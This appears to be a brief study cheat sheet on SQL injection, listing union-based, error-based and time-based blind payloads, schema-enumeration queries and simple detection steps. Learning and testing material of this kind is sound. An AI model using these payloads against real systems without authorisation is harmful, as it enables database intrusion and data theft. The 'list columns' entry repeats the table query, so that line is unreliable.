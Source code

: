 # Techniques to identify the database and the commands for SQLinjection
---
1. Identify the database workspace.
   (e.g., MySQL, PostgreSQL, SQL Server, Oracle)

   start some basics commands to see it :
   SELECT 1: Checks if the database responds to a simple query. 
   SELECT @@version: Retrieves the version of the database (useful for identifying the database).

2. Common SQL injection Payloads.
   Union-based injec :
   ' UNION SELECT NULL, table_name FROM information_schema.tables --
   Error-based injec :
   ' AND 1=2 --
   Blind injec :
   ' AND SLEEP(5) --

   3. Test the schema.
    This schema is presented in many SQL databases, `information_schema`
*List databases*
  ' UNION SELECT NULL, database() --
*List tables*
  ' UNION SELECT NULL, table_name FROM information_schema.tables --
*List columns*
  ' UNION SELECT NULL, table_name FROM information_schema.tables --

***

# How to detect SQL injection vulnerabilities 
---

1. Use the single quote ' and see what happen.
2. Make test and see the time of responses so there is something.
3. boolean values 1=1 and some stuff like that.
4. OAST is a detector of vulnerabilities.

# Parts of appearance are vulnerabilities for injection.
---


